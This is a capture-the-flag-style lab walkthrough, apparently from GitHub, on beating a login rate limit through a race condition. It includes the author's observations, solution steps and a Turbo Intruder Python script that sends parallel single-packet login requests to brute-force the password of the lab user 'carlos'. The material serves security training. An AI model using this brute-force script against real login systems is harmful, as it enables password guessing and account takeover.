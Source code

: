 Title: Bypassing rate limits via race conditions
Level: Practitioner
Desc:  This lab's login mechanism uses rate limiting to defend against brute-force attacks. However, this can be bypassed due to a race condition.
To solve the lab:

    Work out how to exploit the race condition to bypass the rate limit.
    Successfully brute-force the password for the user carlos.
    Log in and access the admin panel.
    Delete the user carlos.

You can log in to your account with the following credentials: wiener:peter.

You should use the following list of potential passwords: file

## Walkthrough
Install Turbo Intruder plugin: 
![image](https://github.com/user-attachments/assets/dd781ada-02e0-454c-8a58-57f502a30bbd)


I can see, that request to login supports HTTP/2
![image](https://github.com/user-attachments/assets/92898829-cf65-483f-bfc9-26a5932d5067)


Observation: after providing more than 3 incorrect passwords I get message: "You have made too many incorrect login attempts. Please try again in 58 seconds."

Observation: rate limiting is specific to user (login), I can still try to log in for another user account

Now I can deduce, that number of failed attempts can be stored on the server side. I can also assume, that could be race condition between sending request and incrementing number of failed attempts.

```
    From the proxy history, find a POST /login request containing an unsuccessful login attempt for your own account.

    Send this request to Burp Repeater.

    In Repeater, add the new tab to a group. For details on how to do this, see Creating a new tab group.
    Right-click the grouped tab, then select Duplicate tab. Create 19 duplicate tabs. The new tabs are automatically added to the group.

    Send the group of requests in sequence, using separate connections to reduce the chance of interference. For details on how to do this, see Sending requests in sequence.

    Observe that after two more failed login attempts, you're temporarily locked out as expected.
```
![image](https://github.com/user-attachments/assets/82455255-d856-4724-a1b9-4100492487ce)



```
    Send the group of requests again, but this time in parallel. For details on how to do this, see Sending requests in parallel

    Study the responses. Notice that although you have triggered the account lock, more than three requests received the normal Invalid username and password response.

    Infer that if you're quick enough, you're able to submit more than three login attempts before the account lock is triggered.
```
Observation: I managed to send all reqest and get response withouth rate limiting

## Exploitation
![image](https://github.com/user-attachments/assets/a58d41d4-28c9-4f56-a9b5-c9e7ef77cc14)


Still in Repeater, highlight the value of the password parameter in the POST /login request.

Right-click and select Extensions > Turbo Intruder > Send to turbo intruder.

In Turbo Intruder, in the request editor, notice that the value of the password parameter is automatically marked as a payload position with the %s placeholder.

Change the username parameter to carlos.

From the drop-down menu, select the examples/race-single-packet-attack.py template.

In the Python editor, edit the template so that your attack queues the request once using each of the candidate passwords. For simplicity, you can copy the following example:
```
def queueRequests(target, wordlists):

    # as the target supports HTTP/2, use engine=Engine.BURP2 and concurrentConnections=1 for a single-packet attack
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           engine=Engine.BURP2
                           )
    
    # assign the list of candidate passwords from your clipboard
    passwords = wordlists.clipboard
    
    # queue a login request using each password from the wordlist
    # the 'gate' argument withholds the final part of each request until engine.openGate() is invoked
    for password in passwords:
        engine.queue(target.req, password, gate='1')
    
    # once every request has been queued
    # invoke engine.openGate() to send all requests in the given gate simultaneously
    engine.openGate('1')


def handleResponse(req, interesting):
    table.add(req)
```
Note that we're assigning the password list from the clipboard by referencing wordlists.clipboard. Copy the list of candidate passwords to your clipboard.

Launch the attack.


![image](https://github.com/user-attachments/assets/c70d0e8c-21b1-48db-8e49-e902a042b6d4)








